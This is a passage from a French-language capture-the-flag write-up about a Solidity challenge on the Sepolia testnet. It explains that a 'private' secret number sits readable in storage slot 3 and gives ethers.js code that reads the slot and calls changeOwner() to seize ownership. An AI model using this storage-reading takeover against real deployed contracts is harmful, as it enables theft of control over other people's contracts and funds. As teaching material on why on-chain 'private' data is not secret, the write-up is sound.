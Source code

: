 Il s'affiche ensuite en dessous dans la partie `Deployed Contracts`.
Le but est de devenir owner du contrat. On voit une fonction `getOwner()` en visibilité public : en l'appelant on récupère owner actuel qui n'est évidemment pas notre adresse de wallet.

### Analyse du code

On remarque dans le code une fonction qui nous permet de devenir owner : `changeOwner()`. Elle prend en paramètre un **nombre secret** que nous devons trouver et si l'on donne le bon, alors on récupère l'ownership de l'instance.
La fonction le compare à la valeur de la variable `s_secretNumber`. Malheureusement cette variable est en visibilité `private`, nous ne pouvons pas l'appeler pour lire sa valeur.
Ce n'est pas pour autant que ce n'est pas possible. Cette variable est stockée dans le Storage du smart contract. Nous devons trouver le numéro de Slot où la variable est stockée puis lire ce Slot.
La variable est sur le Slot 3.

Pour apprendre à calculer le numéro de Slot d'une variable, vous pouvez aller voir sur site : https://docs.soliditylang.org/en/v0.8.13/internals/layout_in_storage.html

### Exploitation

Nous allons utiliser la library `ethersjs` pour charger notre contrat et récupérer la valeur du Slot 3.

```js
const ethers = require("ethers");
const fs = require("fs-extra");
require("dotenv").config();

async function main() {
  const { PRIVATE_KEY, SEPOLIA_RPC_URL, CONTRACT_ADDRESS, CONTRACT_NAME } =
    process.env;
  const provider = new ethers.JsonRpcProvider(SEPOLIA_RPC_URL);
  const wallet = new ethers.Wallet(PRIVATE_KEY, provider);

  // The ABI and binary files of the compiled contract
  const abi = fs.readFileSync(`./File_sol_${CONTRACT_NAME}.abi`, "utf-8");
  const binary = fs.readFileSync(`./File_sol_${CONTRACT_NAME}.bin`, "utf-8");

  // To load a deployed contract
  const contract = new ethers.Contract(CONTRACT_ADDRESS, abi, wallet);

  // To get the Slot 3
  const secretNumber = await getStorage(CONTRACT_ADDRESS, 3, provider);
  console.log(`Keccak secret value : ${secretNumber}`);

  // To call the changeOwner() function to get the ownership
  const tx = await contract.changeOwner(secretNumber);
  await tx.wait();
}

// To get storage datas of a contract
async function getStorage(contractAddress, slotNumber, provider) {
  return await provider.getStorage(contractAddress, slotNumber);
}

main()
  .then(() => process.exit(0))
  .catch((error) => {
    console.error(error);
    process.exit(1);
  });
```
